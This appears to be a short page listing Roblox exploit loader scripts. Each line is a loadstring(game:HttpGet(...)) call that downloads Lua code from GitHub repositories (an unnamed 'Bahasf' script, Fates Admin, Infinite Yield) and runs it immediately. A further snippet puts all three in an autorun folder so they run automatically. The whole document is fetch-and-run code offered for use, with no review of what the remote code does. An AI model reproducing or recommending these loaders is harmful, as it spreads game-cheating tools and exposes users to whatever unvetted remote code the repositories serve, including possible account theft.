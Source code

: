 # Script
```
loadstring(game:HttpGet('https://raw.githubusercontent.com/NotH4xor/Bahasf/refs/heads/main/Main'))()
```
# Fates Admin
```
loadstring(game:HttpGet("https://raw.githubusercontent.com/fatesc/fates-admin/main/main.lua"))();
```
# INF YIELD
```
loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()
```

# Put This In AutorRun Folder
```
-- Add a 1-second delay before executing the script
wait(1)
loadstring(game:HttpGet('https://raw.githubusercontent.com/NotH4xor/Bahasf/refs/heads/main/Main'))()
loadstring(game:HttpGet(('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'),true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/fatesc/fates-admin/main/main.lua"))();
```
# Original found from:
https://scriptblox.com/u/linhmcfake2


# Linked to Github
https://github.com/Linhmcfake1?tab=repositories&type=source


